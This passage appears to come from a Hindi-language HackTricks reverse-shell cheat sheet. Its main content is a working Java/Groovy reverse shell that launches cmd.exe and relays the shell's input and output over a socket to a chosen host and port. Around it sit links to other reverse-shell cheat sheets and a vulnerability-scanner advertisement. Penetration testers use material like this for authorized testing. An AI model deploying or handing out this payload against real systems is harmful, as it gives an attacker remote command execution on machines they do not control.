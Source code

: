 द्वारा [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) नोट: जावा रिवर्स शेल ग्रूवी के लिए भी काम करता है।
```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## प्रमाणपत्र

{% embed url="https://highon.coffee/blog/reverse-shell-cheat-sheet/" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell" %}

{% embed url="https://tcm1911.github.io/posts/whois-and-finger-reverse-shell/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

विशेषता जो महत्वपूर्ण हैं उन दुर्बलताओं को खोजें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी हमला सतह को ट्रैक करता है, प्रोएक्टिव धारणा स्कैन चलाता है, आपकी पूरी टेक स्टैक, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक, में समस्याएं खोजता है। [**इसे आज़माएं मुफ़्त में**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
